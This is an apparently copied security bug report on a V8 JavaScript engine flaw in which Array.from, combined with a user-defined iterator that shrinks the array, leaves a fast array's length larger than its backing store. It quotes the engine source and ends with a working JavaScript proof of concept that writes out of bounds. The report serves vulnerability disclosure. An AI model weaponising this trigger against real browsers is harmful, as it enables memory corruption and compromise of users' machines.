 This is copied from the report in issue 820838:

OOB read/write using Array.prototype.from

<b>VULNERABILITY DETAILS</b>
v8/src/builtins/builtins-array-gen.cc:1945:
  void GenerateSetLength(TNode<Context> context, TNode<Object> array,
                         TNode<Number> length) {
    Label fast(this), runtime(this), done(this);
    // Only set the length in this stub if
    // 1) the array has fast elements,
    // 2) the length is writable,
    // 3) the new length is greater than or equal to the old length.

    // 1) Check that the array has fast elements.
    // TODO(delphick): Consider changing this since it does an an unnecessary
    // check for SMIs.
    // TODO(delphick): Also we could hoist this to after the array construction
    // and copy the args into array in the same way as the Array constructor.
    BranchIfFastJSArray(array, context, &fast, &runtime);

    BIND(&fast);
    {
      TNode<JSArray> fast_array = CAST(array);

      TNode<Smi> length_smi = CAST(length);
      TNode<Smi> old_length = LoadFastJSArrayLength(fast_array);
      CSA_ASSERT(this, TaggedIsPositiveSmi(old_length));

      // 2) Ensure that the length is writable.
      // TODO(delphick): This check may be redundant due to the
      // BranchIfFastJSArray above.
      EnsureArrayLengthWritable(LoadMap(fast_array), &runtime);

      // 3) If the created array already has a length greater than required,
      //    then use the runtime to set the property as that will insert holes
      //    into the excess elements and/or shrink the backing store.
      GotoIf(SmiLessThan(length_smi, old_length), &runtime);

      StoreObjectFieldNoWriteBarrier(fast_array, JSArray::kLengthOffset,
                                     length_smi);

      Goto(&done);
    }

    BIND(&runtime);
    {
      CallRuntime(Runtime::kSetProperty, context, static_cast<Node*>(array),
                  CodeStubAssembler::LengthStringConstant(), length,
                  SmiConstant(LanguageMode::kStrict));
      Goto(&done);
    }

    BIND(&done);
  }
};

// ES #sec-array.from
TF_BUILTIN(ArrayFrom, ArrayPopulatorAssembler) {
[...]
    BIND(&loop);
    {
      // Loop while iterator is not done.
      TNode<Object> next = CAST(iterator_assembler.IteratorStep(
          context, iterator_record, &loop_done, fast_iterator_result_map));
      TVARIABLE(Object, value,
                CAST(iterator_assembler.IteratorValue(
                    context, next, fast_iterator_result_map)));

      // If a map_function is supplied then call it (using this_arg as
      // receiver), on the value returned from the iterator. Exceptions are
      // caught so the iterator can be closed.
      {
        Label next(this);
        GotoIf(IsUndefined(map_function), &next);

        CSA_ASSERT(this, IsCallable(map_function));
        Node* v = CallJS(CodeFactory::Call(isolate()), context, map_function,
                         this_arg, value.value(), index.value());
        GotoIfException(v, &on_exception, &var_exception);
        value = CAST(v);
        Goto(&next);
        BIND(&next);
      }

      // Store the result in the output object (catching any exceptions so the
      // iterator can be closed).
      Node* define_status =
          CallRuntime(Runtime::kCreateDataProperty, context, array.value(),
                      index.value(), value.value());
      GotoIfException(define_status, &on_exception, &var_exception);

      index = NumberInc(index.value());

      Goto(&loop);
    }

    BIND(&loop_done);
    {
      length = index;
      Goto(&finished);
    }
[...]
  BIND(&finished);

  // Finally set the length on the output and return it.
  GenerateSetLength(context, array.value(), length.value());
  args.PopAndReturn(array.value());
}


When the new length of a fast array is greater than the old length, GenerateSetLength() [1] should
also fall back to the runtime to resize the backing store. Otherwise, the array ends up in a state
where data past the end of the backing store can be accessed.

ArrayFrom() might pass an array whose length is less than expected to GenerateSetLength() if a
user-defined iterator shrinks the array right before returning the "end of iteration" marker.

<b>REPRODUCTION CASE</b>
<script>
let oobArray = [];
Array.from.call(function() { return oobArray }, {[Symbol.iterator] : _ => (
  {
    counter : 0,
    max : 1024 * 1024 * 8,
    next() {
      let result = this.counter++;
      if (this.counter == this.max) {
        oobArray.length = 0;
        return {done: true};
      } else {
        return {value: result, done: false};
      }
    }
  }
) });
oobArray[oobArray.length - 1] = 0x41414141;
</script>